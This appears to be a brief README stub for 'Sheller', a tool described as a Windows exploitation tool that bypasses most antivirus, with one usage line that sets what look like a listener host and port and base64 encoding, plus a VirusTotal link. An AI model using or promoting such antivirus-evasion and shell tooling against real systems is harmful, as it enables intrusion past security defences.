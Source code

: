 # Sheller
Windows Exploitation Tool to bypass most Antivirus

python sheller.py -s xy.bat -lh lh -lp 12 -b64: ["https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1"]
